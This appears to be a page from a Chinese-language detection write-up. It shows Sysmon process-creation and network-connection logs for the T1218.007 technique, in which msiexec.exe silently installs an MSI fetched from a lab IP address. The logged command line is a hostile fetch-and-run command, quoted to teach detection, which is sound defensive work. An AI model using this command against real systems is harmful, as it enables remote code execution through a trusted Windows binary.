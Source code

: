 ### Sysmon日志（Event ID 1：进程创建）

```xml
日志名称: Microsoft-Windows-Sysmon/Operational
来源: Microsoft-Windows-Sysmon
日期: 2023/10/01 10:00:00
事件 ID: 1
任务类别: Process Create
级别: 信息
用户: 12306Br0-PC\12306Br0
计算机: 12306Br0-PC
描述:
Process Create:
RuleName: technique_id=T1218.007,technique_name=Signed Binary Proxy Execution
UtcTime: 2023-10-01 02:00:00.596
ProcessGuid: {bb1f7c32-08e0-5e9b-0000-0010b8ff3f01}
ProcessId: 3704
Image: C:\Windows\System32\msiexec.exe
FileVersion: 5.0.7601.17514
Description: Windows® installer
Product: Windows Installer - Unicode
Company: Microsoft Corporation
OriginalFileName: msiexec.exe
CommandLine: msiexec.exe /q /i http://192.168.126.146/1.msi
CurrentDirectory: C:\Users\12306Br0\
User: 12306Br0-PC\12306Br0
LogonGuid: {bb1f7c32-5fc3-5e99-0000-00201ae20600}
LogonId: 0x6e21a
TerminalSessionId: 1
IntegrityLevel: Medium
Hashes: SHA1=443AAC22D57EDD4EF893E2A245B356CBA5B2C2DD
ParentProcessGuid: {bb1f7c32-08db-5e9b-0000-001049f63d01}
ParentProcessId: 1900
ParentImage: C:\Windows\System32\cmd.exe
ParentCommandLine: "C:\Windows\System32\cmd.exe"
```

**分析**：
- 日志记录`msiexec.exe`执行，命令行明确指向远程MSI。

### Sysmon日志（Event ID 3：网络连接）

```xml
日志名称: Microsoft-Windows-Sysmon/Operational
来源: Microsoft-Windows-Sysmon
日期: 2023/10/01 10:00:00
事件 ID: 3
任务类别: Network connection detected
级别: 信息
用户: 12306Br0-PC\12306Br0
计算机: 12306Br0-PC
描述:
Network connection detected:
RuleName: technique_id=T1218.007,technique_name=Signed Binary Proxy Execution
UtcTime: 2023-10-01 02:00:00.597
ProcessGuid: {bb1f7c32-08e0-5e9b-0000-0010b8ff3f01}
ProcessId: 3704
Image: C:\Windows\System32\msiexec.exe
Protocol: tcp
DestinationIp: 192.168.126.146
DestinationPort: 80
DestinationHostname: 192.168.126.146
```
